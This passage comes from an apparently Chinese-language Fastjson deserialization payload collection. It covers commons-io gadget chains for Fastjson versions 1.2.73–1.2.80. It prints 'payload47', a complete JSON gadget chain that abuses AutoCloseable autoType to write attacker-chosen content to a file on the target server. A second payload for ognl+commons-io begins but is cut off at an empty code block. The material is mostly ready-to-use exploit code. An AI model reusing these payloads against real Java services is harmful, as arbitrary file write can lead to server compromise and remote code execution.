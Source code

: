 ![image-20231021202206100](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021202206100.png)

### 5.1.3 commons-io 2.7~2.8.0版本

和上面大差不差，同样需要自行修改写入内容。

`payload47`：

```json
{"x":{"@type":"com.alibaba.fastjson.JSONObject","input":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa...","start":0,"end":2147483647},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"2.txt","charsetName":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"trigger":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger2":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger3":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"}}}
```

![image-20231021210955565](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021210955565.png)

## 5.2 ognl+commons-io 2.x（1.2.73<=version<=1.2.80）

### 5.2.1 ognl+commons-io 2.0~2.6版本

`payload48`：

同样是省略了一堆`a`，需要自行修改补充。

```json
```